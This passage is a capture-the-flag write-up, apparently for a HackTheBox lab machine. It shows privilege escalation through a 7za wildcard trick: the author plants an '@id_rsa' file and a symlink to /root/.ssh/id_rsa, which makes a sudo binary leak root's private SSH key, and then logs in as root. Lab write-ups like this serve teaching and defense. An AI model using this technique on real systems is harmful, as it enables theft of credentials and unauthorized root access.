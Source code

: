 The binary uses ``7za`` to create an archive.

Search on Internet if we can privesc with that.

I found this link : https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z

We are in the same case, so I think we could be able to obtain root access :

:warning: *You need to be logged as ``dash`` to write in ``/var/www/html`` !*

1) ``cd /var/www/html`` -> folder were this is being executed.
2) ``touch @id_rsa`` -> Try to read the private *ssh* key.
3) ``ln -s /root/.ssh/id_rsa id_rsa`` -> Create the symlink.


Now, return on ``xander`` session and execute  ``sudo /usr/bin/usage_management``

![Privilege Escalation](../assets/img/Usage/privesc.png)


Create a new file with the private ssh key, change permissions to **600** and connect as root : 
```bash
ssh -i root_rsa root@usage.htb
```

And here we goooo !

![Root Flag](../assets/img/Usage/root.png)
